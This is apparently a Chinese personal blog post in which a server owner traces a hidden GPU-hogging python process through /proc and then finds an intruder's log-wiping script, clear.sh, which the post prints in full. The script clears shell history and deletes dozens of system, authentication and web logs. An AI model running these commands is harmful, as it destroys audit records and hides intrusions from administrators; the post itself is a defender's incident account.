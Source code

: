 ```yaml
---
layout: post
title:  "Linux进程查询"
date:   2022-04-06 10:36:01 +0800
categories: linux
---
```


## Linux进程查询

疫情原因已经在家办公三周了。。。

在家远程服务器的时候发现GPU一直是满的，开始以为是启了服务占用了，后面服务关了发现还有，top一看原来又被黑掉了。

之前服务器也被黑过，但是通过top定位后比较好查杀，这次程序是直接通过python启动连脚本都没有，而且程序设置了自动重启杀掉后一直会定时启动，不得不说有点高端。

```shell
# nvida-smi 查一下PID
ps -aux | grep 32853
```

<img src="/assets/images/Linux_01.png"/>

乍一看指令怎么是python直接启动？？难道要去删python不成？？而且指令也没有路径信息看不到是从哪启动的。查了半天也没找到

咨询了一下大佬，原来可以从进程号中找到可执行文件位置

Linux的所有进程都保存在/proc/目录下，保存形式为：/proc/进程号。进入到进程号目录后，里面有一个cwd链接文件即指向的进程的的目录

```shell
ll /proc/32853

# lrwxrwxrwx  1 root root 0 4月   6 10:07 cwd -> /tmp/x
# lrwxrwxrwx  1 root root 0 4月   4 18:01 exe -> /tmp/x/python
```

原来是在tmp下装了个python

然后找到对应文件删掉后再杀死程序就不会重启了

<img src="/assets/images/Linux_02.png"/>

### 续：

杀掉后过了一天发现GPU又被沾满了？？连续两天杀掉还是会半夜自动安装后悄悄启动。

```shell
ps -aux | grep ssh
```

发现有个奇怪的ip连接

在/var/tmp目录下发现了清理痕迹的脚本clear.sh，好家伙把所有日志都删了，怪不得每次登录都发现bashrc没了。。

```shell
#! /bin/bash
##########  Pentru a rula script-ul trebuie sa folosesti doar ". clear.sh"  ##########
history -c
history -rc
clear ; unset ; rm -rf /var/run/utmp /var/log/wtmp /var/log/lastlog /var/log/messages /var/log/secure /var/log/xferlog /var/log/maillog /root/.bash_history ; unset HISTFILE ; unset HISTSAVE ; unset HISTLOG ; history -n ; unset WATCH ; export HISTFILE=/dev/null ; export HISTFILE=/dev/null
rm -rf /var/log/lastlog
rm -rf $HOME/.bash_history
rm -rf /var/log/messages
rm -rf /var/log/warn
rm -rf /var/log/wtmp
rm -rf /var/log/poplog
rm -rf /var/log/qmail
rm -rf /var/log/smtpd
rm -rf /var/log/telnetd
rm -rf /var/log/secure
rm -rf /var/log/auth
rm -rf /var/log/auth.log
rm -rf /var/log/cups/access_log
rm -rf /var/log/cups/error_log
rm -rf /var/log/thttpd_log
rm -rf /var/log/spooler
rm -rf /var/spool/tmp
rm -rf /var/spool/errors
rm -rf /var/spool/locks
rm -rf /var/log/nctfpd.errs
rm -rf /var/log/acct
rm -rf /var/apache/log
rm -rf /var/apache/logs
rm -rf /usr/local/apache/log
rm -rf /usr/local/apache/logs
rm -rf /usr/local/www/logs/thttpd_log
rm -rf /var/log/news
rm -rf /var/log/news/news
rm -rf /var/log/news.all
rm -rf /var/log/news/news.all
rm -rf /var/log/news/news.crit
rm -rf /var/log/news/news.err
rm -rf /var/log/news/news.notice
rm -rf /var/log/news/suck.err
rm -rf /var/log/news/suck.notice
rm -rf /var/log/xferlog
rm -rf /var/log/proftpd/xferlog.legacy
rm -rf /var/log/proftpd.xferlog
rm -rf /var/log/proftpd.access_log
rm -rf /var/log/httpd/error_log
rm -rf /var/log/httpsd/ssl_log
rm -rf /var/log/httpsd/ssl.access_log
rm -rf /var/adm
rm -rf /var/run/utmp
rm -rf /etc/wtmp
rm -rf /etc/utmp
rm -rf /etc/mail/access
rm -rf /var/log/mail/info.log
rm -rf /var/log/mail/errors.log
rm -rf /var/log/httpd/*_log
rm -rf /var/log/ncftpd/misclog.txt
rm -rf /var/account/pacct
rm -rf /var/log/snort
rm -rf /var/log/bandwidth
rm -rf /var/log/explanations
rm -rf /var/log/syslog
rm -rf /var/log/user.log
rm -rf /var/log/daemons/info.log
rm -rf /var/log/daemons/warnings.log
rm -rf /var/log/daemons/errors.log
rm -rf /etc/httpd/logs/error_log
rm -rf /etc/httpd/logs/*_log
rm -rf /var/log/mysqld/mysqld.log
rm -rf /root/.ksh_history
rm -rf /root/.bash_history
rm -rf /root/.sh_history
rm -rf /root/.history
rm -rf /root/*_history
rm -rf /root/.login
rm -rf /root/.logout
rm -rf /root/.bash_logut
rm -rf /root/.Xauthority
set +o history;history -rc;unset HISTFILE;unset HISTSIZE;unset $HISTFILE;unset $HISTSIZE;rm -rf $HISTFILE;rm -rf ~/.ksh_history;rm -rf ~/.bash_history;rm -rf ~/.bash_logout;rm -rf /root/.ksh_history;rm -rf /root/.bash_history;rm -rf /root/.bash_logout;rm -rf /var/log/faillog;rm -rf /var/log/lastlog;rm -rf /var/log/mail;rm -rf /var/log/maillog;rm -rf /var/log/messages;rm -rf /var/log/secure;rm -rf /var/log/syslog;rm -rf /var/log/wtmp;rm -rf /var/log/xferlog;rm -rf /var/run/utmp;touch ~/.ksh_history;touch ~/.bash_history;touch ~/.bash_logout;touch /root/.ksh_history;touch /root/.bash_history;touch /root/.bash_logout;touch /var/log/faillog;touch /var/log/lastlog;touch /var/log/mail;touch /var/log/maillog;touch /var/log/messages;touch /var/log/secure;touch /var/log/syslog;touch /var/log/wtmp;touch /var/log/xferlog;touch /var/run/utmp;history -rc;unset HISTFILE HISTSAVE HISTMOVE HISTZONE HISTORY HISTLOG USERHOST;unset HISTFILE HISTSAVE HISTLOG SCREEN WATCH
rm -rf /root/.bash_history
rm -rf $HOME/.bash_history
rm -rf /var/log/*
set +o history
history -c
history -rc
printf "\e[92mAm terminat - clear log by ez \e[0m\n"

```

